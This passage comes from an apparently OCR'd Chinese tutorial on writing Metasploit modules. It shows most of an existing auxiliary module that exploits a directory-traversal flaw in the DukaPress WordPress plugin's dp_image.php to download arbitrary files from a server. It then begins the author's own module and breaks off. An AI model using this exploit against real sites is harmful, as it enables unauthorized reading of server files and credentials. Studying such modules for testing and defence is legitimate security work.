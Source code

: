 ```

    # 检查dukapress版本，Wordpress module提供
    check_plugin_version_from_readme('dukapress', '2.5.7')

  end

  def run_host(ip)

    traversal = "../" * datastore['DEPTH']
    filename = datastore['FILEPATH']
    filename = filename[1, filename.length] if filename =~ /^\//
    # 发送http请求
    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(wordpress_url_plugins, 'dukapress', 'lib', 'dp_image.php'),
      'vars_get' =>
        {
          'src' => "#{traversal}#{filename}"
        }
    })
    # 检查响应
    if res && res.code == 200 && res.body.length > 0

      print_status('Downloading file...')
      print_line("\n#{res.body}")

      fname = datastore['FILEPATH']
      # 保存文件
      path = store_loot(
        'dukapress.file',
        'text/plain',
        ip,
        res.body,
        fname
      )

      print_good("#{peer} - File saved in: #{path}")
    else
      print_error("#{peer} - Nothing was downloaded. You can try to change the DEPTH parameter.")
    end

  end

end

```

弄懂大概结构后，我们根据前面的分析，编写自己的module，完成后的代码如下

```
#

This module requires Metasploit: http://metasploit.com/download

Current source: https://github.com/rapid7/metasploit-framework

#

# 引入msf core 库

require 'msf/core'

# 继承 Msf::Auxiliary 类

```